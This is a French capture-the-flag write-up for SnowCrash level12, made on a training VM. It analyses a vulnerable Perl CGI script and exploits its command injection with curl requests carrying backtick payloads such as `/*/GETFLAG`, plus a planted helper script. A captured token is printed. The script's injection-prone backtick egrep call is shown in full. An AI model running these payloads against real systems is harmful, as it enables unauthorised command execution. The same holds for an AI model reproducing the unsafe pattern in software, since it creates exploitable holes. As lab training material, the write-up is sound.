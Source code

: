 ```hell
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
Il s'agit d'un script Perl qui utilise le module CGI pour recevoir des paramètres d'un formulaire web et affiche un point ou deux points en fonction du résultat d'un appel de fonction.

Le script définit deux sous-routines :

    "t" prend deux paramètres ($_[0] et $_[1]) et effectue un traitement de texte sur $_[0] (en le convertissant en majuscules et en supprimant les espaces blancs finaux). Il recherche ensuite des lignes dans le fichier /tmp/xd qui commencent par $_[0] modifié et ont le motif $_[1] quelque part dans le reste de la ligne. Si une telle ligne est trouvée, la fonction renvoie 1 ; sinon, elle renvoie 0.

    "n" prend un paramètre ($_[0]) et affiche soit un point (.) soit deux points (..) selon que $_[0] est égal à 1 ou non.

La partie principale du script appelle "n" avec le résultat de l'appel de "t" avec les valeurs des paramètres "x" et "y" obtenues à partir du formulaire web.

Notez que ce script est vulnérable aux attaques d'injection de commandes, car il passe l'entrée utilisateur non sécurisée directement à la commande "egrep".

On essaie de voir s'il y a une connexion possible:
```shell
level12@SnowCrash:~$ curl -I 127.0.0.1:4646
HTTP/1.1 200 OK
Date: Tue, 21 Mar 2023 03:39:36 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html
```
OK pour utiliser la faille et injecter une commande dans `egrep "^$xx" /tmp/xd 2>&1`, on va utiliser un x= dans l'url :

x=getflag, mais on sait que avant il x sera mis en majuscule. Il faut donc qu'on puisse appeler GETFLAG.

pour cela on va utiliser utiliser le wildcard:

En effet quand il y a un unique fichier on peut l'appeler par /*. Donc:
```shell
level12@SnowCrash:~$ ln -sf /bin/getflag /tmp/GETFLAG
level12@SnowCrash:~$ /*/GETFLAG
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
```
Ok maintenant si je lance avec x=`/*/GETFLAG` il faut que je mette en code url:
[url encoder](https://www.urlencoder.org/)
ce qui donne : %2F%2A%2FGETFLAG
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`%2F%2A%2FGETFLAG`'
..level12@SnowCrash:
```
Mais je n'ai aucune sortie
une solution pas tres jolie mais j'ai pas trouvé mieux c'est de sortir sur l'erreur d'appache:
donc x=`/*/GETFLAG>&2 qu'on encode : %2F%2A%2FGETFLAG%3E%262
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`%2F%2A%2FGETFLAG%3E%262`'
..level12@SnowCrash:~tail /var/log/apache2/error.log`'
[...]
[Tue Mar 21 05:24:13 2023] [error] [client 127.0.0.1] Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
# deuxième solution **BEST**

le repertoire run/shm est monté en tant que système de fichiers tmpfs:
```shell
level12@SnowCrash:~$ mount | grep 'run/shm'
none on /run/shm type tmpfs (rw,nosuid,nodev)
```
et on a les droit d'écriture
on va donc faire un un petit script que l'on nomera GETFLAG
```shell
level12@SnowCrash: vi /run/shm/GETFLAG
```
```shell
#!/bin/sh

getflag > /tmp/token
```
L'avantage c'est que c'est dans le script que l'on maitrise la sortie de getflag.

Maintenant la commande curl ne passe pas pas les erreur de apache et on a pas besoins de coder 'url'
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`/*/GETFLAG`'

level12@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```